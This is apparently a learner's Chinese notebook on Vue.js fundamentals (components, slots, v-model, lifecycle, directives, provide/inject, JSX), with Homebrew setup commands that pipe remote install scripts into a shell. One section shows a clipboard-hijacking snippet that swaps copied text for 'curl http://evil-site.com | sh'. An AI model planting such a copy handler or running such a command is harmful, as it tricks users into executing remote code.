

笔记
1 先写一个组件
vue 中
```html
    <ul>
      <li v-for="item in list">
        <span v-if="!item.del">{{item.title}}</span>
        <span v-else style='text-decoration:line-through;'>{{item.title}}</span>
        <button v-show="!item.del">删除</button>
      </li>
    </ul>
```
2 将写死的组件转换成独立的组件
如果传入的属性没有指定挂载在谁上，会默认挂载到temple的根节点上(试了一下 报错了)
```html
  <ul>
      <todo-list v-for="item in list" :title="item.title" :del="item.del" :data-someth="a"></todo-list>
    </ul>
```
通过 Vue.component 注册事件 绑定的名字是不能重复
```js
 Vue.component('todo-list', {
    props: {
      title: String,
      del: {
        type: Boolean,
        default: false
      }
    },
    template: `
    <li>
        <span v-if="!del">{{title}}</span>
        <span v-else style='text-decoration:line-through;'>{{title}}</span>
        <button v-show="!del">删除</button>
      </li>
      `
  })
```
3 绑定事件
自定义的组件里面的data都是函数形式的，不然会报错
```js
    data: function () {
      return {
        list: [{
          title: '课程1',
          del: false
        }, {
          title: "课程2",
          del: true
        }]
      }
    },
```

## vue 事件修饰符
```js
//阻止冒泡事件
        <button v-show="!del" @click.stop="handleClick">删除</button>
```
在事件处理程序中调用 event.preventDefault() 或 event.stopPropagation() 
是非常常见的需求。
尽管我们可以在方法中轻松实现这点，但更好的方式是：
方法只有纯粹的数据逻辑，而不是去处理 DOM 事件细节。
为了解决这个问题，Vue.js 为 v-on 提供了事件修饰符。
之前提过，修饰符是由点开头的指令后缀来表示的。

.stop
.prevent
.capture
.self
.once
.passive
<!-- 阻止单击事件继续传播 -->
<a v-on:click.stop="doThis"></a>

<!-- 提交事件不再重载页面 -->
<form v-on:submit.prevent="onSubmit"></form>

<!-- 修饰符可以串联 -->
<a v-on:click.stop.prevent="doThat"></a>

<!-- 只有修饰符 -->
<form v-on:submit.prevent></form>

<!-- 添加事件监听器时使用事件捕获模式 -->
<!-- 即内部元素触发的事件先在此处理，然后才交由内部元素进行处理 -->
<div v-on:click.capture="doThis">...</div>

<!-- 只当在 event.target 是当前元素自身时触发处理函数 -->
<!-- 即事件不是从内部元素触发的 -->
<div v-on:click.self="doThat">...</div>

##在mac上配置vscode的 path
F1 -> code 选择在PATH中配置vscode

#安装brew
/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
defeat！ - -
:443
源问题
/bin/zsh -c "$(curl -fsSL https://gitee.com/cunkai/HomebrewCN/raw/master/Homebrew.sh)"
victory!
选 1 就是中科大源
然后就是下载
安装 tree 文件 就是输出当前的目录树
brew install tree
exa ls的升级版
brew install exa

#看到一个东西 
这说明复制这个动作也是可以被捕获到的
```html
<div class="copyme">$ echo "伪装成普通命令"</div>
  <script>
    document.getElementById('copyme').addEventListener('copy', function (e) {
      e.clipboardData.setData('text/plain',
        'curl http://evil-site.com | sh ' // 复制了真实命令
      );
      e.preventDefault();
    });
  </script>
```
# 05 | 组件基础及组件注册

- Vue.component(name,config)注册组件
  - name 不能重复 要确保唯一性
```js
Vue.component('todo-item',{
  data:function(){
    //组件数据
    return {}
  },
  methods:function(){
    //组件方法
    return {}
  },
// template 是模板字符串，如果需要用数据需要传入到这里
  template:``

})

```

# 07 | Vue组件的核心概：插槽
插槽是一种复杂的函数，通过slot的方法传进去了一些参数，然后通过参数进行
- 默认插槽
```html
        <span slot='pre-icon'>前置标签</span>
        <span slot='suf-icon'>后置标签</span>
```
```js
 template: `
    <li>
        <slot name='pre-icon'></slot>
        <slot name='suf-icon'></slot> 
      </li>
      `,
```
- 具名插槽
```html
 <template v-slot:pre-icon>
          <span >前置标签</span>
        </template>
        <template v-slot:suf-icon>
          <span >后置标签</span>
        </template>
```
- 作用域插槽
可以接受子组件发送的值

# 08 | 理解单文件组件
-  Vue.component的缺点
  - 全局定义
  - 字符串模板（缺乏语法高亮）
  - 不支持CSS
  - 没有构建步骤

- 使用.vue的vue-cli
- 安装
```bash
# node npm 略
npm install -g @vue/cli
```
## vue-cli
- 入口文件 src/main.js
- APP.vue 第一个单文件组件
```js
//这里面data是一个方法，返回一个对象，因为跟实例是在main.js,
//而App.vue有可能会被复用
data() {
    return {
      message: "hello vue",
      list: [
        {
```
- App.vue 中的组件只在App中生效
```js
export default {
  name: "App",
  components: {
    TodoItem,
    TodoList
  },
```
- 如果你想让TodoItem全局使用，也是可以的，需要再全局注册
  - main.js
```js
import TodoItem from "./components/TodoItem";
Vue.component('todoItem',TodoItem);
```
## CSS组件化
- todoItem.vue
```js vue
<template>
<span class="red" v-if="!del">{{title}}</span>
</template>
//使用style scoped 会让元素的属性变为唯一的，不会污染别的地方
<style scoped>
.red{
  color: red;
}
</style>
```
# 09 | 双向绑定和单向数据流不冲突
- 通过v-model实现
```html
<!-- 1.简写 通过v-model -->
<input v-model="message">
<!-- 2.通过值绑定方法 -->
<input :value="message" @input="handleChange">
  {{message}}
```
```js
methods: {
  handleChange(e) {
    this.message = e.target.value;
  }
}
```
说明vue的双向数据绑定其实，还是单向的数据流
只是通过v-model的方式简化了代码
- v-model 在内部为不同的输入元素使用不同的 property 并抛出不同的事件：
  - text 和 textarea 元素使用 value property 和 input 事件；
  - checkbox 和 radio 使用 checked property 和 change 事件；
  - select 字段将 value 作为 prop 并将 change 作为事件。

- input textarea checkbox select的不同用法 
```html
<!-- input -->
<input v-model="message" placeholder="edit me">
<p>Message is: {{ message }}</p>
<!-- textarea -->
<p style="white-space: pre-line;">{{ message }}</p>
<textarea v-model="message" placeholder="add multiple lines"></textarea>
<!-- checkbox -->
<input type="checkbox" id="checkbox" v-model="checked">
<label for="checkbox">{{ checked }}</label>
<!-- select -->
<div id="example-6">
  <select v-model="selected" multiple style="width: 50px;">
    <option>A</option>
    <option>B</option>
  </select>
  <br>
  <span>Selected: {{ selected }}</span>
</div>
```
## .sync
- 第一步：先用一句话解释
.sync修饰符可以实现子组件与父组件的双向绑定，并且可以实现子组件同步修改父组件的值。
一般情况下，想要实现父子组件间值的传递，通常使用的是 props 和自定义事件 $emit 。
- 第二步：具体解释
其中，父组件通过 props 将值传给子组件，子组件再通过 $emit 将值传给父组件，
父组件通过事件j监听获取子组件传过来的值。
如果想要简化这里的代码，可以使用.sync修饰符，实际上就是一个语法糖。
这里 
<Child :money="dataApp" v-on:update:money="dataApp = $event"/> 
就相当于 
<Child :money.sync="dataApp"/> 。

# 10 | 理解虚拟DOM及key属性的作用
通过修改state给vue底层传递信息，由vue完成对dom的操作
## vdom
state + template = dom
## vdom diff
- 1.只对同层级进行比较
  - 场景1：移动
  - 场景2：删除新建
  - 场景3：删除新建（同层级）
  - 场景4：更新删除新建（无key）
  - 场景5：移动（有key）转换为了场景1
    - 无key同层就删除新建，有key就保留移动
  - 场景6：插入(有key）
    - 有key的标示算法就理解为插入，无key就会同层删除新建
vue的vdom如何进行比较？
有key无key的区别？

# 11 | 如何触发组件的更新
- vue是数据驱动的框架
- 不要直接操作dom
## 数据的来源(单向的)
- 来自父元素的属性
- 来自组件自身的data
- 来自状态管理器，如vuex,Vue.observable
## 状态（data）和属性(props)
- 状态是组件自身的数据
- 属性是来自父组件的数据
- 状态的改变未必会触发更新
- 属性的改变未必会触发更新

## 如何触发响应式？
vue组件的数据都会进行一次getter,setter,如果数据有用到，就会进行watcher，如果不用到，就不会watcher
watcher的数据如果发生改变就会触发响应式更新。
## 什么情况下会触发响应式？
Vue 对数组的 push 、pop、shift、unshift 等方法进行了修改，这些作用于数组元素的方法仍会触发更新；
像 arr.length = val 这种修改数组长度的方式 不会触发更新； 
这是 Object.defineProperty 局限性导致的， 它定义的是一个对象上某个值的表现，而非对象本身。
而 Proxy 定义的是一个对象上行为的表现，Proxy是不局限于某个属性的，因此它能够追踪到对象中属性的增加和删除。

# 12 | 合理应用计算属性和侦听器

## 计算属性 computed
可以写一些计算逻辑的属性
- 减少模板中计算逻辑
- 数据缓存
  - 当数据没有变化时，不会去执行计算的过程
- 依赖固定的数据类型（必须是响应式数据类型）
```js
  computed: {
    // 计算属性的 getter
    reversedMessage1: function() {
      console.log("执行reversedMessage1");
      return this.message
        .split("")
        .reverse()
        .join("");
    },
```
## 侦听器 watch
用来监听数据变化的，监听某一个数据是否发生改变
- watch可以执行任何逻辑，如函数节流，Ajax异步获取数据（操作dom 不要用）
- 使用deep:true 子元素改变也会触发当前元素的watch
- console.log("new: %s, old: %s", val, oldVal); 使用%s输出当前的字符串
```js
 watch: {
    a: function(val, oldVal) {
      this.b.c += 1;
      console.log("new: %s, old: %s", val, oldVal);
    },
    "b.c": function(val, oldVal) {
      this.b.d += 1;
      console.log("new: %s, old: %s", val, oldVal);
    },
    "b.d": function(val, oldVal) {
      this.e.f.g += 1;
      console.log("new: %s, old: %s", val, oldVal);
    },
    e: {
      handler: function(val, oldVal) {
        this.h.push("😄");
        console.log("new: %s, old: %s", val, oldVal);
      },
      deep: true
    },
    h(val, oldVal) {
      console.log("new: %s, old: %s", val, oldVal);
    }
  }
```
## computed 与watch的关系？
- computed能做的watch也能做，反之不行
- 能用computed的尽量用computed

# 13 | 生命周期的应用场景和函数式组件
## 生命周期
创建阶段 销毁阶段 在组件的生命周期中只会执行一次， 更新阶段会执行多次
### 创建阶段
- 初始化事件和生命周期
- beforeCreate
- 数据观测，属性，侦听器配置等
- created
- 模板（template）编译到render
- beforeMount
- rander
  - 生成vdom
  - 挂载到真实dom
- mounted
  - 异步请求，操作DOM，定时器等

### 更新阶段
- 数据变化或者$forceUpdate强制刷新的时候
- beforeUpdate ->移除已经添加的事件监听器等（万万不可更改依赖数据（一旦更改就会触发beforeUpdate，就会死循环））
- rander
- updated ->操作DOM添加事件监听器等（万万不可更改依赖数据）
### 销毁阶段
- beforeDestory ->移除已经添加的事件监听器，计时器等
- destroyed
## 函数式组件
- function:true
- 无状态、无实例、没有this上下文、无生命周期
### 作用
在开发过程中
- 做展示
- 做临时变量

# 14 | 指令的本质是什么 
## 内置指令 
语法糖 标志位
- v-text
- v-html
- v-show
- v-if v-else-if v-else
- v-for
- v-bind 简写 :
v-bind:key="num" 简写 :key="num" 
- v-on 简写 @
v-on:click="number=number+1"
@:click="number=number+1"
- v-pre 
不渲染 直接输出内容
- v-once 
只渲染一次 
## 自定义指令 
- bind
- inserted
- update
- componentUpdated
- unbind
```js
 bind(){
        console.log('bind');
      },
      inserted(el,binding){
        el.appendChild(document.createTextNode(binding.value));
        console.log("inserted",el,binding);
      },
      update(){
        console.log('update');
      },
      componentUpdated(el,binding){
        el.removeChild(el.childNodes[el.childNodes.length-1]);
        el.appendChild(document.createTextNode(binding.value));
        console.log("componentUpdated")
      },
      unbind(){
        console.log("unbind");
      }
```

**error: Unexpected console statement (no-console) at src/views/1.7/waizhizhiling.vue:32:9:**
解决方法：修改package.json中的eslintConfig:{} 中的 “rules”:{}，增加一行代码: "no-console":"off"
保存后 npm install 
 或者直接使用：
window.console.log("...")

# 15 | 常用高级特性provide/inject
- 1.vue 不好实现孙节点给父节点传递数据，成本较高
- 实现了子组件节点之间的通信，跨组件通信
- provide节点提供数据，其他节点通过inject的方式注入数据
- ChildrenA 中设置 provide
```js
 provide() {
    this.theme = Vue.observable({
      color: "blue"
    });
    return {
      theme: this.theme
    };
  },
```
- ChildrenE 注入E中
```js
  inject:{
    theme:{
      default:()=>({})
    }
  },
```
- ChildrenF 注入F中
```html
<!-- 模板调用 -->
  <h3 :style="{color:theme1.color}">F节点</h3>
```
```js
// 挂载到当前组件如果与当前属性重名，可以用from特性
  inject: {
    theme1: {
      from: "theme",
      default: () => ({})
    }
  }
```
- ChildrenI 注入函数式组件I中
通过injections的方式去取
```html
 <h3 :style="{color:injections.theme.color}">I节点</h3>
```
```js
 inject:{
    theme:{
      default:()=>({})
    }
  }
```
- ChildrenC 中设置 provide
这边EF节点颜色不会改变，因为设置C的provide，就不会往上寻找了
```js
  provide(){
    return{
      theme:{
        color:'green'
      }
    }
  }
```
- 注意：指定到provide的数据不是响应式的，所以需要绑定到一个具有响应式的内容上
  - this中有很多属性，data,
```js
 provide() {
    return {
      theme: this
    }
  },
```
## 总结
provide/inject 的inject类似于事件的冒泡机制

# 16 | 如何优雅地获取跨层级组件实例（拒绝递归）
## 普通的获取组件实例
- 如果是普通的元素，ref="p"获取的是真实的dom元素
- 如果是自定义组件，那么获取到的就是这个组件的实例了。
this.$ref.XXXX可以获取当前组件上下文的实例。
如果说要获取跨层级的组件的实例？那就很不方便了。
如果要获取父组件的，可以通过parent.refs.
获取子组件的children.refs
如果层级多的时候，10级20级别的。那就很不方便了。
- ChildrenA 设置 provide
```js
  provide() {
    return {
      setChildrenRef:(name,ref)=>{
        this[name]=ref;
      },
      getChildrenRef:name=>{
        return this[name];
      },
      getRef:()=>{
        return this;
      }
    }
  },
```
- ChildrenE 中调用父级的 setChildrenRef ，绑定this的name
```html
<h3 v-ant-ref="c =>setChildrenRef('childrenE',c)">E节点</h3>
```
调用 inject 注入
```js
  inject: {
    setChildrenRef: {
      default: () => {}
    }
  }
```
## 总结
避免使用回调的跨层级获取元素

# 17 | template和JSX的对比以及它们的本质
- template
模板语法
 ```html
 <span>{{msg}}</span>
 ```
- JSX
js语法扩展
数据绑定使用单引号
```html
<span>{msg}</span>
```

## 注意
- VNodes :vnodes的方式执行事件
```html
<VNodes :vnodes="getAnchoredHeading(4)" />
```
```js
methods: {
    getAnchoredHeading(level){
      const Tag=`h${level}`;
      return <Tag>Hello Vue</Tag>
    }
  }
```
- jsx转换成js的写法
```jsx
 render: function (h) {
    const Tag=`h${this.level}`;
    console.log(this.$slots.default);
    return <Tag>{this.$slots.default}</Tag>
  }
```
```js
 render: function (createElement) {
    return createElement(
      "h" + this.level, //标签名称
      this.$slots.default //子元素数组
    )
```
- this.$slots.default 是元素的innerHTML
## 总结
不管是JSX还是template，原理上都是语法糖
构成元素的方法都是
```js
createElement("span",`${this.msg}`)
```